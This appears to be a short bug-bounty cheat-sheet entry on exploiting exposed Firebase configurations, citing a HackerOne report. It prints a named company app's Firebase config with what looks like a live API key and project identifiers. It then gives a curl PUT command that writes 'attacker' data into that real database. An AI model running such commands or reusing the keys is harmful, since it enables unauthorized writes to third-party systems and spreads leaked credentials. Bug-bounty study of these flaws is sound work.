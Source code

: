 # How To Exploit Token / API Keys And Known Reports
- [FireBase Database Config Exposeure](https://hackerone.com/reports/1447751)
1. Data Might Reveal
```bash
$(document).ready(function() {
// Your web app's Firebase configuration
var firebaseConfig = {
apiKey: "AIzaSyCRrABG3_Sc7xHar70hFyjHjEOJ071rbJ4",
authDomain: "mtn-pulse-uganda.firebaseapp.com",
databaseURL: "https://mtn-pulse-uganda.firebaseio.com",
projectId: "mtn-pulse-uganda",
storageBucket: "mtn-pulse-uganda.appspot.com",
messagingSenderId: "242450689592",
appId: "1:242450689592:web:bdd1173378d94d733800cd",
measurementId: "G-KHPT64LJ5L"
};
```
1. Exploitation
```bash
curl "https://mtn-pulse-uganda.firebaseio.com/poc1.json" -XPUT -d '{"attacker":"maliciousdata"}'
```
